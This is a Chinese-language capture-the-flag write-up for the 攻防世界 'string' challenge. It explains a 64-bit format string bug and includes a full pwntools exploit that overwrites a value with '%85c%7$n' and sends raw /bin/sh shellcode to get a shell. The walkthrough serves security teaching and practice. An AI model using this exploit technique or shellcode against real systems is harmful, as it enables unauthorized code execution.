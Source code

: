 # 攻防世界: string

## **[目标]**
shellcode,format string bug

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 首先请自行理解一下程序的逻辑。

- 查看有哪些保护机制开启。

![](./pic/1.png)
- 审计 sub_400CA6 函数的时候，发现一个比较可疑的地方

![](./pic/2.png)
- 这句话的意思是：把v1强制转化成一个函数指针，然后调用这个函数。也就是说如果我们shellcode写到这个位置，就能直接调用。shellcode可以通过上面的read函数来写进去。

- 那么如何才能让程序的执行流到达这个位置呢。需要让`*a1 == a1[1]`。a1是作为参数传进来的，通过回溯，我们发现 a1 就是在 main 函数中 定义的v3，是一个指向堆块的指针。其中`v3[0]=68`,`v3[1]=85`。也就是说当`v3[0]==v3[1]`时就能满足`*a1 == a1[1]`。可如何才能修改成功呢？

![](./pic/3.png)
- 上图可知，有一个格式化字符串漏洞，可以进行任意地址写。接下来我们需要知道v3[0]的地址。


![](./pic/4.png)
- 其实输出的 secret[0] 就是 我们需要的地址。

<mark>思路</mark>：现在 地址有了，利用格式化字符串 将 `*a1 == a1[1]`，成功进入脆弱点，写入shellcode。

- 这道题有一点需要注意，这是一个64位的程序，在64位下，函数前6个参数依次保存在rdi、rsi、rdx、rcx、r8和r9寄存器中（也就是说，若使用”x$”，当1<=x<=6时，指向的应该依次是上述这6个寄存器中保存的数值），而从第7个参数开始，依然会保存在栈中。故若使用”x$”，则从x=7开始，我们就可以指向栈中数据了。

- 在输入address的时候，输入1234，并在 `printf(&format, &format)`前下一个断点，查看我们输入的地址在栈中的位置：


![](./pic/5.png)
- 完成exp如下：

```python
from pwn import *

p = process("./string")

p.recvuntil("secret[0] is ")
addr = int(p.recvuntil("\n")[:-1],16)
log.success("addr:"+hex(addr))

p.sendlineafter("be:\n","GG")
p.sendlineafter("up?:\n","east")
p.sendlineafter("leave(0)?:\n","1")

p.sendlineafter("address\'\n", str(addr))

# 输出85个字节 就能把位于7$上的地址的内容改写位85
p.sendlineafter("is:\n", "%85c%7$n")

# shellcode = asm(shellcraft.sh())
shellcode = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
p.sendlineafter("SPELL\n",shellcode)
sleep(0.1)
p.interactive()
```

## **[参考阅读]**
[关于格式化字符串和64位的格式化字符串利用](https://www.anquanke.com/post/id/85785)